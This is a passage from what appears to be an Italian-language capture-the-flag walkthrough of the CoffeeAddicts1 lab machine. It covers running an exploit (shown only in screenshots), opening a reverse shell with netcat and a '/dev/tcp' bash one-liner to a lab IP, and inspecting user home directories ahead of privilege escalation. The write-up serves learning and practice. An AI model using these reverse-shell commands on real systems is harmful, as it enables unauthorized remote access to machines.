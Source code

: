 <img width="485" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/d06507e3-6ea1-487e-8011-7ac0c1cf3dc4">
<p></p>

Successivamente, si vanno a settare tutti i parametri e poi si lancia l’exploit.

<img width="391" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/665ac0da-a29d-4208-b1b9-1180c2d51557">

<img width="622" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/32fea30e-6f9e-4823-8aeb-557b821fdea5">
<p></p>

L’exploit è andato a buon fine ma da come possiamo vedere si ha un messaggio di errore, il quale, dice che non si riesce ad avere accesso alle parent directories.
Ora tramite netcat lanciamo i comandi per la reverse shell:

>nc -nlvp 4444

<img width="215" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/1dd880e8-5a4c-4d4b-ad9b-d20719a12364">

>nc -nv 10.0.2.15 4444 -e /bin/bash

<img width="425" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/edeedf5f-aa2b-4ba5-a622-28f651070ee6">

Il risultato mostrato ci informa che  con l’opzione -e non e possibile eseguire la bash.
Quindi, cerchiamo il path della bash

<img width="409" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/0961517f-b138-4698-8771-c66c7bd677d6">

Allora, eseguiamo il seguente comando:

>bash -i >& /dev/tcp/10.0.2.15/4444 0>&1
<p></p>

Ora la connessione è avvenuta con successo e tramite il comando ifconfig constatiamo l’avvenuta connessione.
<p></p>

<img width="486" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/38f4af27-0420-4696-9e00-8c98735796bc">

Successivamente si cercano informazioni utili alla privilege escalation.

<img width="337" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/8391c35f-026b-478b-afff-3d0fd742bcb6">

Troviamo due directory utente nella cartella home e andiamo ad ispezionarle entrambi.

<img width="330" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/fe2223fd-4663-4d73-93a8-39a1afec517a">

Nella directory gus si procede ad ispezionare i file.txt, trovando importanti informazioni. Nel readme.txt c’è un messaggio da parte di un certo Nicolas Fritzges, il quale ci informa che il sito è stato hackerato ed ogni tentativo di fix è futile in quanto l’utente admin è stato rimosso dal file sudoers e la password root cambiata.

<img width="652" alt="image" src="https://github.com/haxkadc/CoffeeAddicts1/assets/134702013/cccc4136-894a-4fc1-9499-54c98806754c">

Nel file user.txt troviamo un messaggio simile a quello trovato nella conversione dell’indirizzo BTC in base64.
